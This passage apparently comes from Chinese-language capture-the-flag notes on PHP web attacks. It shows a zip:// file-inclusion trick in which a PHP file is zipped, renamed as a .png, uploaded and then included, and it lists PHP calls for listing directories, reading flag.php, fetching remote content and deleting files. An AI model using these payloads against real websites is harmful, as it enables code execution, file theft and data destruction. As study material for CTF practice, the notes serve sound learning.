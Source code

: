zip://

把1.php文件压缩成.zip，再把后缀改成png，上传上去

```php
?file=zip://1.png%231.php
// ?file=zip://1.zip%231.php
```



>   glob:// 查找匹配的文件路径模式



**文件操作相关**

```php
// 列出目录
scandir('/xxx')  // . 当前目录 .. 上级目录 / 根目录
    
// 输出文件内容
show_source('flag.php');
highlight_file('flag.php');
var_dump(file('flag.php'));  // 以下两个以数组形式输出
print_r(file('flag.php'));

// 读取文件内容
file_get_contents('flag.php');
file_get_contents('http://www.baidu.com')  // 读取远程内容，可用作爬虫
    
获取当前文件所在目录:
1.print_r(getcwd()); 
2.print_r(dirname(__FILE__));

获取当前文件目录(包含本身文件名):
print_r(__FILE__);

遍历当前目录的文件:
1.print_r(scandir(getcwd())); 
2.print_r(scandir(dirname(__FILE__))); 
3.print_r(glob("*"))
    
遍历当前目录的前目录的文件:
print_r(scandir(dirname(__FILE__) . "/../"));
打开文件:show_source('flag.php');
删除文件:unlink('neko.php');
是否存在变量:var_dump(getenv('neko'));
设置变量:putenv('neko=runa');
```





## 后台登录类

**类型：**
